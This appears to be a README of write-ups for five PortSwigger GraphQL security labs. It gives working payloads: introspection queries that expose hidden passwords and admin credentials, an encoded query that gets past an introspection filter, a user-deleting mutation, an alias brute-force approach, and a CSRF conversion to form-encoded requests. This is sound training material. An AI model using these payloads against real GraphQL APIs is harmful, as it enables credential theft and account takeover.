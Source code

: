 ## Accessing private GraphQL posts
[Accessing private GraphQL posts](https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts)

Write-up: 
1. We need to get the password of the hidden blog post. Intercepting the request to / shows us a POST request to /graphql/v1:
   
    ```json
    {"query":"\nquery getBlogSummaries {\n    getAllBlogPosts {\n        image\n        title\n        summary\n        id\n    }\n}","operationName":"getBlogSummaries"}
    ```

    We can see by the response to this request that the post with id=3 isn't being displayed.

2. Using introspection, we can find more about the schema:

    ```json
    {"query": "query { __schema { types { name fields { name } } } }"}
    ```

    We discover a getBlogPost query, as well as a postPassword field.

3. To find out more about the getBlogPost query, we use:

    ```json
    {
        "query": "query { __type(name: \"query\") { fields { name args { name type { kind name ofType { kind name } } } type { kind name ofType { kind name } } } } }"
    }
    ```

4. Using the new information we got, we can craft a request to get us the missing post:

    ```json
    {
        "query": "query getBlogPostById($id: Int!) { getBlogPost(id: $id) { image title summary id postPassword } }",
        "operationName": "getBlogPostById",
        "variables": { "id": 3 }
    }
    ```

    This reveals the password: **l58w5rj7y2lqog9oqpgautmrocsirx7r**

## Accidental exposure of private GraphQL fields
[Accidental exposure of private GraphQL fields](https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure)

Write-up:
1. Using introspection, we can find more about the schema:

    ```json
    {"query": "query { __schema { types { name fields { name } } } }"}
    ```

    We discover a getUser query and a User object.

2. To get more information about User we use:

    ```json
    {"query": "{ __type(name: \"User\") { name fields { name type { name kind ofType { name kind } } } } }"}
    ```

    This shows us User object has id, username and password.

3. To get admin details:

    ```json
    {"query": "query { getUser(id: 1) { id username password } }"}
    ```

    This shows credentials **administrator:6fegsn30pc958nfulcl8**

4. Logging in gives us access to admin panel which allows us to delete user **carlos** and solve the lab.

## Finding a hidden GraphQL endpoint
[Finding a hidden GraphQL endpoint](https://portswigger.net/web-security/graphql/lab-graphql-find-the-endpoint)

Write-up:
1. Attempting to access some common locations for GraphQL endpoints makes us find `/api`,
   which returns a JSON with "Query not present".

2. Attempting to access `/api?query={__schema{queryType{name}}}` returns "GraphQL introspection is not allowed, but the query contained __schema or __type".

3. To bypass, we use `GET /api?query={__schema%0A{types{name,kind,fields{name,type{name,kind}}}}}` and we find a deleteOrganizationUser mutation.

    ```http
    GET /api?query=query%7B__type%0A(name:%22mutation%22)%7Bfields%7Bname%20args%7Bname%20type%7Bname%20kind%20ofType%7Bname%20kind%7D%7D%7D%20type%7Bname%20kind%7D%7D%7D%7D
    ```

    This shows us there are objects called DeleteOrganizationUserInput and DeleteOrganizationUserResponse.

    ```http
    GET /api?query=query%7B__type%0A(name:%22DeleteOrganizationUserInput%22)%7Bname%20kind%20inputFields%7Bname%20type%7Bname%20kind%20ofType%7Bname%20kind%7D%7D%7D%7D%7D
    ```

    We find out that this object takes in the user id as a parameter.

4. We need to find carlos' user id. Iterating from 1 to 3 shows us that carlos has id=3.

    ```http
    GET /api?query=query%7BgetUser(id:3)%7Bid%20username%7D%7D
    ```

5. This payload deletes user carlos and completes the lab:

    ```http
    GET /api?query=mutation%0A%7BdeleteOrganizationUser(input:%7B%20id:3%20%7D)%20%7Buser%20%7Bid%20username%7D%7D%7D
    ```

## Bypassing GraphQL brute force protections
[Bypassing GraphQL brute force protections](https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass)

Write-up:
1. We are instructed to brute-force the login. Using `alias-brute-force-login.py` 
   (which uses aliases to bypass rate limiting), we are able to find the credentials
   and solve the lab - **carlos:1234567890**

## Performing CSRF exploits over GraphQL
[Performing CSRF exploits over GraphQL](https://portswigger.net/web-security/graphql/lab-graphql-csrf-via-graphql-api)

Write-up:
1. After logging in, we can use Caido to see the update email request:

    ```http
    POST /graphql/v1 HTTP/1.1
    Host: 0a8000a10490937680fd179b004b00e3.web-security-academy.net
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0
    Accept: application/json
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br, zstd
    Referer: https://0a8000a10490937680fd179b004b00e3.web-security-academy.net/my-account?id=wiener
    Content-Type: application/json
    Content-Length: 228
    Origin: https://0a8000a10490937680fd179b004b00e3.web-security-academy.net
    Connection: keep-alive
    Cookie: session=c1CaJ0YeDIINGvc5MzcYcUs2bIUz7mi2; session=c1CaJ0YeDIINGvc5MzcYcUs2bIUz7mi2
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Priority: u=0

    {
        "query": "\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n",
        "operationName": "changeEmail",
        "variables": {
            "input": {
                "email": "jpcsousa@outlook.pt"
            }
        }
    }
    ```

2. Attempting to repeat this request with different emails shows us we can reuse the request.

4. We can convert the request to a POST with `Content-Type: application/x-www-form-urlencoded` by changing the headers and URL-encoding the body:

    ```http
    POST /graphql/v1 HTTP/1.1
    Host: 0a8000a10490937680fd179b004b00e3.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 176
    
    query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
    ```

5. We create a CSRF PoC HTML file: `csrf-poc.html`

6. Hosting this HTML on the exploit server and delivering it to the victim solves the lab.